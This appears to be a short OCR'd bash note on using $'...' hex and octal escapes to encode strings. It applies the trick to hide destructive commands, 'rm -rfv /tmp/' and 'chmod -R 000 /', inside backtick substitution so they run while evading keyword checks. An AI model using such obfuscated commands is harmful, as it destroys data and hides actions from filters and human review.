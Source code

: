 ```bash

# 使用十六进制方式
8b54799f34e5:/# echo $'\x69\x20\x61\x6D\x20\x70\x61\x70\x65\x72\x64\x72\x61\x67\x6F\x6E'
i am paperdragon

# 混合方式
8b54799f34e5:/# echo $'\x69\x20\x61\x6D\x20\x70\x61\x70\x65\x72\x64\x72\x61\x67\157\156'
i am paperdragon

```



```bash
# rm -rfv /tmp/
echo  "`$'\162\155' $'\55\162\146' $'\57\164\155\160\57'`"  | airpaly
```

```bash
# chmod -R 000 /
echo "`$'\143\150\155\157\144' $'\055\122' $'\60\60\60' $'\57'`" | 360clean
```

